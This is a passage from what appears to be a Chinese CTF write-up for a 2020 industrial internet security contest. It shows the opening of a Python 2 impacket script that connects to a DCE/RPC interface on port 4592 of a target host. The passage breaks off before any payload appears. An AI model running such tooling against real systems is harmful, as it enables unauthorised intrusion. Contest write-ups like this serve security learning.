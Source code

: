 ![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/14.png)

```py
#!/usr/bin/python2.7

import sys, struct
from impacket import uuid
from impacket.dcerpc.v5 import transport

def call(dce, opcode, stubdata):
  dce.call(opcode, stubdata)
  res = -1
  try:
    res = dce.recv()
  except Exception, e:
    print "Exception encountered..." + str(e)
    sys.exit(1)
  return res

if len(sys.argv) != 2:
  print "Provide only host arg"
  sys.exit(1)

port = 4592
interface = "5d2b62aa-ee0a-4a95-91ae-b064fdb471fc"
version = "1.0"

host = sys.argv[1]

string_binding = "ncacn_ip_tcp:%s" % host
trans = transport.DCERPCTransportFactory(string_binding)
trans.set_dport(port)
```
